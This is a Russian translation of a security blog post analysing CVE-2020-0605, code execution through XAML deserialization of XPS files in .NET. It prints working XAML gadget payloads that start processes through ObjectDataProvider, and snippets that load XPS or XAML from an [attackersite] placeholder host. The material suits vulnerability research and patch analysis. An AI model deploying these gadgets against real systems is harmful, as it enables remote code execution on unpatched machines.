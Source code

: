 ```yaml
--- 

layout: post 

title: Анализ CVE-2020-0605 – Выполнение произвольного кода, используя XPS файлы в .NET 

category: [translations] 

tag: [windows, exploit] 

--- 
```


 

 

[Оригинал](https://www.mdsec.co.uk/2020/05/analysis-of-cve-2020-0605-code-execution-using-xps-files-in-net/) 

 

 

![](/assets/images/translations/cve-net/1.png) 

 

 

## Введение 

 

 

Майкрософт запатчила несколько уязвимостей, связанных с десериализацией XPS файлов. Патч, для [CVE-2020-0605](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-0605), вышедший в январе 2020, не исправлял проблему полностью и в мае 2020 было выпущено еще одно обновление.   

 

 

Формат XPS предполагался, как замена PDF, но, так и не получил широкого распространения. Microsoft сделала приложение XPS Viewer опциональным по-умолчанию, в последних версиях Windows (в установленных с нуля Windows 10 1083 и выше). XPS Viewer не использует .NET, для показа XPS файлов, поэтому уязвимость его не затронула.  

 

 

Запатченая уязвимость позволяла проэксплуатировать код, работающий с XPS файлами, используя .NET библиотеки. 

Обнаруженные уязвимости также могут являться частью эксплуатации XAML десериализации.  

 

 

## Технический анализ 

 

 

Каждый XPS файл содержит изображения, шрифты или XML данные в сжатом виде. Для обратки XML документов внутри XPS файлов, используется .NET сериализация XAML.  

 

 

Пример структуры XPS файла: 

 

 

``` 

File.xps\DiscardControl.xml 

File.xps\FixedDocumentSequence.fdseq 

File.xps\[Content_Types].xml 

File.xps\Documents\1\FixedDocument.fdoc 

File.xps\Documents\1\Pages\1.fpage 

File.xps\Documents\1\Pages\_rels\1.fpage.rels 

File.xps\Documents\1\_rels\FixedDocument.fdoc.rels 

File.xps\Metadata\Job_PT-inqy3ql9shqm2dc_mcqr93k5g.xml 

File.xps\Metadata\SharedEmpty_PT-cn4rss5oojtjhxzju9tpamz4f.xml 

File.xps\Resources\Fonts\0D7703BF-30CA-4254-ABA0-1A8892E2A101.odttf 

File.xps\Resources\Images\00F8CA61-B050-4B6A-AFEF-139AA015AC08.png 

File.xps\_rels\.rels 

File.xps\_rels\FixedDocumentSequence.fdseq.rels 

``` 

 

 

Файлы, с расширениями ".fdseq", ".fdoc" и ".fpage", используют XAML сериализацию, реализованную в .NET. 

 

 

Также можно использовать другие расширения, если соответствующие типы прописаны в Content_Types.xml. 

 

 

Можно взять простую нагрузку из [ysoserial](https://github.com/frohoff/ysoserial) и вставить в любой из этих файлов. Он будет запущен, при чтении XPS файла: 

 

 

```xml 

<ResourceDictionary 

xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 

 xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml" 

 xmlns:System="clr-namespace:System;assembly=mscorlib" 

 xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system"> 

 <ObjectDataProvider x:Key="LaunchCalc" 

 ObjectType="{x:Type Diag:Process}" 

 MethodName="Start"> 

 <ObjectDataProvider.MethodParameters> 

 <System:String>cmd</System:String> 

 <System:String>/c calc</System:String> 

 </ObjectDataProvider.MethodParameters> 

 </ObjectDataProvider> 

</ResourceDictionary> 

``` 

 

 

Январский патч защищал только ".fdseq" файл, что позволяло использовать уязвимость, с другим файлами. 

 

 

Следующий C# код демонстрирует два примера использования XPS файлов в .NET: 

 

 

```csharp 

XpsDocument myDoc = new XpsDocument(@"http://[attackersite]/test.xps", FileAccess.Read); 

var a = myDoc.GetFixedDocumentSequence(); 

``` 

 

 

или 

 

 

```csharp 

PrintQueue defaultPrintQueue = LocalPrintServer.GetDefaultPrintQueue(); 

PrintSystemJobInfo xpsPrintJob = defaultPrintQueue.AddJob("test", @"http://[attackersite]/test.xps", false); 

``` 

 

 

Хочется отметить, что BAML файлы (BAML - скомпилированная версия XAML) внутри XPS не могли использоваться для эксплуатации в наших тестах, так как они вызывали внутренние ошибки. 

 

 

## Уязвимые .NET библиотеки  

 

 

Методы _Load_ и _Validate_ класса _XpsValidatingLoader_ (внутренний класс System.Windows.Documents), вызывают другой приватный метод, который использует _XamlReader.Load_ и могут привести к выполнению произвольного кода, при обработке вредоносного XAML. 

 

 

``` 

System.Windows.Documents.XpsValidatingLoader -> внутренний класс 

    Load -> внутренний метод, используется в: 

        System.Windows.Documents.PageContent 

        System.Windows.Documents.FixedDocument 

        System.Windows.Documents.DocumentReference 

    Validate -> внутренний метод, используется в: 

        System.Windows.Documents.FixedDocument 

``` 

 

 

Вышеуказанные внутренние файлы классов затем используются другими классами, которые в конце концов будут доступны публично. 

 

 

## XAML гаджеты 

 

 

Можно использовать уязвимый код, для добавления XAML гаджетов из _ysoserial_: 

 

 

Использование FixedDocumentSequence и внешнего файла: 

 

 

```xml 

<FixedDocumentSequence xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"> 

    <DocumentReference Source="http://[attackersite]/payload.xaml" /> 

</FixedDocumentSequence> 

``` 

 

 

Использование FixedDocumentSequence и свойства Resources: 

 

 

```xml 

<FixedDocumentSequence xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"> 

  <FixedDocumentSequence.Resources> 

    <ObjectDataProvider MethodName="Start" x:Key=""> 

      <ObjectDataProvider.ObjectInstance> 

        <sd:Process> 

          <sd:Process.StartInfo> 

            <sd:ProcessStartInfo Arguments="/c calc" FileName="cmd" /> 

          </sd:Process.StartInfo> 

        </sd:Process> 

      </ObjectDataProvider.ObjectInstance> 

    </ObjectDataProvider> 

  </FixedDocumentSequence.Resources> 

</FixedDocumentSequence> 

``` 

 

 

Использование FixedDocument и внешнего файла: 

 

 

```xml 

<FixedDocument xmlns="http://schemas.microsoft.com/xps/2005/06"> 

    <PageContent Source="http://[attackersite]/payload.xaml" Height="1056" Width="816" /> 

</FixedDocument> 

``` 

 

 

использование FixedDocument и свойства Resources: 

 

 

```xml 

<FixedDocument xmlns="http://schemas.microsoft.com/xps/2005/06" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"> 

  <FixedDocument.Resources> 

    <ObjectDataProvider MethodName="Start" x:Key=""> 

      <ObjectDataProvider.ObjectInstance> 

        <sd:Process> 

          <sd:Process.StartInfo> 

            <sd:ProcessStartInfo Arguments="/c calc" FileName="cmd" /> 

          </sd:Process.StartInfo> 

        </sd:Process> 

      </ObjectDataProvider.ObjectInstance> 

    </ObjectDataProvider> 

  </FixedDocument.Resources> 

</FixedDocument> 

``` 

 
